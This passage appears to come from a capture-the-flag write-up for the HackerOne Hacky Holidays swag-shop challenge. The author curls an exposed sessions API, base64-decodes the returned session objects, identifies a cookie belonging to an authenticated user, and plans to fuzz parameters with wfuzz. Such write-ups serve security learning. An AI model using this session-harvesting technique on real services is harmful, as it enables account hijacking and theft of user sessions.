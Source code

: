 These looked like base64, so I decoded them:

```bash
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/sessions | jq -r '.sessions[]' | base64 -d | jq

{
  "user": null,
  "cookie": "YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="
}
{
  "user": null,
  "cookie": "ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="
}
{
  "user": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "cookie": "NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="
}
{
  "user": null,
  "cookie": "MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="
}
{
  "user": null,
  "cookie": "M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="
}
{
  "user": null,
  "cookie": "MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="
}
{
  "user": null,
  "cookie": "MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="
}
{
  "user": null,
  "cookie": "OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="
}
```

I now had a session associated with an authenticated user (the third one down in the list). Using the cookie didn't seem to have any effect, so I went back to try and figure out what was up with the `user` endpoint.

This time I used `wfuzz` to try and find the missing parameter(s).
